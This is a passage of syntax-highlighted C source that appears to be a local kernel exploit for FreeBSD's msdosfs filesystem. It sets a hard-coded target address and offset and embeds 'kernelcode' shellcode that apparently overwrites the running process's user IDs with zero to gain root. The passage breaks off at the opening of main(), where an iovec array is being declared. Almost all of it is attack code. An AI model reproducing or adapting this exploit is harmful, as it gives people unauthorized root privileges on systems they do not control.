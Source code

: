 <div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="c" style="font-family:monospace;"><span style="color: #339933;">#include &lt;sys/param.h&gt;</span>
<span style="color: #339933;">#include &lt;sys/mount.h&gt;</span>
<span style="color: #339933;">#include &lt;sys/uio.h&gt;</span>
<span style="color: #339933;">#include &lt;err.h&gt;</span>
<span style="color: #339933;">#include &lt;stdio.h&gt;</span>
<span style="color: #339933;">#include &lt;stdlib.h&gt;</span>
<span style="color: #339933;">#include &lt;string.h&gt;</span>
<span style="color: #339933;">#include &lt;sysexits.h&gt;</span>
<span style="color: #339933;">#include &lt;unistd.h&gt;</span>
<span style="color: #339933;">#include &lt;sys/types.h&gt;</span>
<span style="color: #339933;">#include &lt;sys/stat.h&gt;</span>
<span style="color: #339933;">#include &lt;sys/mman.h&gt;</span>
&nbsp;
<span style="color: #339933;">#define BUFSIZE     249</span>
&nbsp;
<span style="color: #339933;">#define PAGESIZE    4096</span>
<span style="color: #339933;">#define ADDR        0x6e7000</span>
<span style="color: #339933;">#define OFFSET      1903</span>
&nbsp;
<span style="color: #339933;">#define FSNAME      "msdosfs"</span>
<span style="color: #339933;">#define DIRPATH     "/tmp/msdosfs"</span>
&nbsp;
<span style="color: #993333;">unsigned</span> <span style="color: #993333;">char</span> kernelcode<span style="color: #009900;">&#91;</span><span style="color: #009900;">&#93;</span> <span style="color: #339933;">=</span>
    <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x64</span><span style="color: #660099; font-weight: bold;">\xa1</span><span style="color: #660099; font-weight: bold;">\x00</span><span style="color: #660099; font-weight: bold;">\x00</span><span style="color: #660099; font-weight: bold;">\x00</span><span style="color: #660099; font-weight: bold;">\x00</span><span style="color: #660099; font-weight: bold;">\x8b</span><span style="color: #660099; font-weight: bold;">\x40</span><span style="color: #660099; font-weight: bold;">\x04</span><span style="color: #660099; font-weight: bold;">\x8b</span><span style="color: #660099; font-weight: bold;">\x40</span><span style="color: #660099; font-weight: bold;">\x30</span>"</span>
    <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x31</span><span style="color: #660099; font-weight: bold;">\xc9</span><span style="color: #660099; font-weight: bold;">\x89</span><span style="color: #660099; font-weight: bold;">\x48</span><span style="color: #660099; font-weight: bold;">\x04</span><span style="color: #660099; font-weight: bold;">\x89</span><span style="color: #660099; font-weight: bold;">\x48</span><span style="color: #660099; font-weight: bold;">\x08</span><span style="color: #660099; font-weight: bold;">\x81</span><span style="color: #660099; font-weight: bold;">\xc4</span><span style="color: #660099; font-weight: bold;">\xe8</span><span style="color: #660099; font-weight: bold;">\x00</span>"</span>
    <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x00</span><span style="color: #660099; font-weight: bold;">\x00</span><span style="color: #660099; font-weight: bold;">\x5b</span><span style="color: #660099; font-weight: bold;">\x5e</span><span style="color: #660099; font-weight: bold;">\x5f</span><span style="color: #660099; font-weight: bold;">\x5d</span><span style="color: #660099; font-weight: bold;">\xc3</span>"</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #993333;">int</span>
main<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span>
<span style="color: #009900;">&#123;</span>
    <span style="color: #993333;">void</span> <span style="color: #339933;">*</span>vptr<span style="color: #339933;">;</span>
    <span style="color: #993333;">struct</span> iovec iov<span style="color: #009900;">&#91;</span><span style="color: #0000dd;">6</span><span style="color: #009900;">&#93;</span><span style="color: #339933;">;</span>
&nbsp;